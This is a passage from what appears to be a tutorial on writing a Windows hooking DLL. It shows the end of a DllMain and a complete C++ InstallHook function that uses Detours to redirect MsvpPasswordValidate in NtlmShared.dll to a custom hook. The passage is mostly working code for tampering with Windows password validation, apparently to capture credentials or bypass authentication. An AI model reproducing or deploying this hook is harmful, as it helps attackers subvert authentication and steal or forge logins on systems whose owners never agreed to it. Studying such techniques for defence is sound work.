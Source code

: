 ```c++
    }
    return TRUE;
}
```

Top to bottom, we include `pch.h` to enable precompiled headers and speed up compilation, and `hppdll.h` to include all the types and functions we defined earlier. We also set to `nullptr` the `MsvpPasswordValidate` function pointer, which will be filled later by the `InstallHook` function with the address of the actual `MsvpPasswordValidate`. You can see that `InstallHook` gets called when the DLL is loaded and `RemoveHook` is called when the DLL is unloaded.

##### InstallHook.cpp
InstallHook is the function responsible for actually injecting our hook:

```c++
#include "pch.h"
#include "hppdll.h"

bool InstallHook()
{
	DEBUG("InstallHook called!");

	// get a handle on NtlmShared.dll
	RAII::Library ntlmShared(L"NtlmShared.dll");
	if (ntlmShared.GetHandle() == nullptr)
	{
		DEBUG("Couldn't get a handle to NtlmShared");
		return false;
	}

	// get MsvpPasswordValidate address
	MsvpPasswordValidate = (pMsvpPasswordValidate)::GetProcAddress(ntlmShared.GetHandle(), "MsvpPasswordValidate");
	if (MsvpPasswordValidate == nullptr)
	{
		DEBUG("Couldn't resolve the address of MsvpPasswordValidate");
		return false;
	}

	DetourTransactionBegin();
	DetourUpdateThread(::GetCurrentThread());
	DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
	LONG error = DetourTransactionCommit();
	if (error != NO_ERROR)
	{
		DEBUG("Failed to hook MsvpPasswordValidate");
		return false;
	}
	else
	{
		DEBUG("Hook installed successfully");
		return true;
	}
}
```
